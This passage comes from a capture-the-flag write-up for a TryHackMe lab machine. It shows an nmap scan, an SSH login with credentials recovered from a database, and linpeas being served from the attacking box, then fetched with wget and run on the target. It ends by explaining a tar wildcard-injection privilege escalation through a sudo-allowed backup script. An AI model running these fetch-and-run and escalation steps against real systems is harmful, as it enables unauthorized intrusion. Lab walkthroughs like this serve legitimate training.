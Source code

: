 ```nmap -sV -sC -T4 -oN ./nmap_results 10.10.197.179```
We can see we missed somthing!

![alt text](img/data2.png?raw=true "data2")

If we look in the users table we can see that id 3 belongs to *jake*.

We can now try to use these credentials to ssh into the server

```ssh jake@10.10.26.207```

Succes!

![alt text](img/ssh.png?raw=true "ssh")

### There's the second flag


## 3rd flag

If we try to change directory to root or the markeplace directory's we can see that we dont have the permission to do so.
It is time for us to find a way to escalate our privilages.

We can start the process with some linux enum scripts. I usualy use this [linpeas script](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).
Since we cannot acces the internet on the THM boxes we need to again setup a simple http server and transfer over the script inside a dir where we have write permissions.

#### attacking box

```python3 -m http.server 4013```

####  victim box

```wget http://10.8.71.60:4013/linpeas.sh```

After that we make it executable

```chmod +x linpeas.sh```

now we can run it

```./linpeas.sh```

![alt text](img/lin1.png?raw=true "lin1")

After checking the results that linpeas found we can see it doesn't really find that many intresting.(There is somthing marked about the debug port but this does not lead anywhere). spitting trough the results we find this

*'User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh'*

If we check the file backup.sh file we can see the following:

![alt text](img/backup.png?raw=true "backup")

We can see the 'tar' command using a * wildcard. wildcards always peak my intress so if we lookup tar wildcard we can find some articles explaining we can exploit this tar command using the wildcard.

The tar command wil put everything (\*) in a archive called backup but if we create some files named like arguments/options because of the wildcard these wil we excuted as such argument/option. You can read more about it [here](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c).
```